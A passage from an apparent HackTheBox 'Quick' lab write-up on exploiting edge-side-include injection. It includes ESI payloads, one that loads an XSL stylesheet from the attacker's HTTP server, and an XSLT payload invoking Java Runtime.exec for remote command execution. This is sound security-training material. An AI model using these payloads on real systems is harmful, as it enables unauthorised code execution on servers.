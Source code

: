 And now we can search for the ticket:
![](/images/hackthebox/quick/search-ticket.png)

The first thing that came to my mind is to test for HTML injection:
![](/images/hackthebox/quick/html-injection.png)

## Exploiting the ESI inclusion
I tried different payloads to achieve LFI but then I read one of the responses
which had the `X-Powered-By: Esigate` header. This tells us that the server may
be vulnerable to ESI injection, there's a neat
[article](https://portswigger.net/daily-swig/edge-side-includes-abused-to-enable-rce)
that explains it very well.

Let's create a ticket to try to achieve ESI injection:
```html
<esi:include src="http://127.0.0.1" />
```
And let's search for it:
![](/images/hackthebox/quick/esi-injection.png)

Looks like the homepage got included in the response! Let's try to include a
remote resource using this payload after starting a HTTP server with `python3 -m
http.server 1337`:
```html
<esi:include src="index.php" stylesheet="http://10.10.14.81:1337/test.xsl">
</esi:include>
```

And we got a request:
```
10.10.10.186 - - [30/Apr/2020 09:18:35] "GET /test.xsl HTTP/1.1" 200 -
```

We can use this payload to try to achieve RCE as explained in this
[article](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/):
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[ls]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
